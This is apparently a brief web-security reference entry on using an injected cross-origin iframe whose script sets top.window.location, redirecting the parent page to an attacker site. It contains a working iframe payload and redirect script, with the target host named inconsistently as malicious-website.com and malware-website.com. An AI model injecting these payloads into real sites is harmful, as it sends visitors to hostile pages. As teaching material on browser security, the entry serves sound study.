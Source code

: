 The [\<iframe>](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) tag is used to embed an HTML document in another HTML document. If source of inserted document located on another origin, same origin policy will block any access to content of other document for both of them.

# Open redirect

Child document can view and set location property for parent, even if cross-origin `top.window.location`.

Inject an iframe to `vulnerable-website.com`:

```html
<iframe src=//malicious-website.com/toplevel.html></iframe>
```

where `https://malicious-website.com/toplevel.html` contains:

```html
<html><head></head><body><script>top.window.location = "https://malicious-website.com/pwned.html"</script></body></html>
```

When the iframe is loaded, the parent will be redirected to the `https://malware-website.com/pwned.html` page, even if the child document is loaded from a different origin. Same origin policy will be bypassed because the iframe is not being "sandboxed", q.v. [sandbox iframe attribute](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe).

# References

- [\<meta> and \<iframe> tags chained to SSRF](https://medium.com/@know.0nix/hunting-good-bugs-with-only-html-d8fd40d17b38)